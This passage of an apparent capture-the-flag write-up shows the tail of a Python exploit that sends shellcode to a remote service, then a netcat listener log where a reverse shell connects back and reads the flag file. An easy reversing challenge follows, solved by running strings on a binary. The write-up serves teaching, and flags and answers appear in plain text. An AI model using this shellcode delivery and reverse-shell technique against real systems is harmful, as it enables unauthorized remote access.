 ```

try:
    client.connect((remote_host,remote_port))

    data = client.recv(1024)
    print data
    
    client.send(shellcode)
    print "[*] Shellcode sent."

except socket.error, e:
    print e 
```

I ran a netcat listener and upon receiving a connection it succesfully spawned a shell and the flag could be read.

```
$ nc -vl 0.0.0.0 55555
Listening on [0.0.0.0] (family 0, port 55555)
Connection from [104.196.247.127] port 55555 [tcp/*] accepted (family 2, sport 33950)
cat /home/ctf/flag.txt
FLAG:c832b461f8772b49f45e6c3906645adb
```

## Easy

> This one is easy.  
> * [easy-32](/assets/bssf2017/easy-32)  
> * [easy-64](/assets/bssf2017/easy-64)

The absolute basics of reverse engineering ("reversing") is to extract information out of binary files. In this challenge, we are presented with two binaries, one claiming to be a 32-bit architecture and one for a 64-bit archicture. Since I have a 64-bit machine, I downloaded the `easy-64` binary.

There's no need to execute it, because the very first thing we want to do is inspect the binary directly to see if there are any plaintext strings in it that are useful to us. The [`strings` command](https://linux.die.net/man/1/strings) is perfect for this. Running `strings` against the binary gives us a lot of output:

```sh
root@kali:~/Downloads# strings easy-64
/lib64/ld-linux-x86-64.so.2
libc.so.6
gets
puts
__stack_chk_fail
strcmp
__libc_start_main
__gmon_start__
GLIBC_2.4
GLIBC_2.2.5
UH-P
AWAVA
AUATL
[]A\A]A^A_
What is the password?
the password
FLAG:db2f62a36a018bce28e46d976e3f9864
Wrong!!
;*3$"
GCC: (Ubuntu 5.4.0-6ubuntu1~16.04.4) 5.4.0 20160609
crtstuff.c
__JCR_LIST__
deregister_tm_clones
__do_global_dtors_aux
```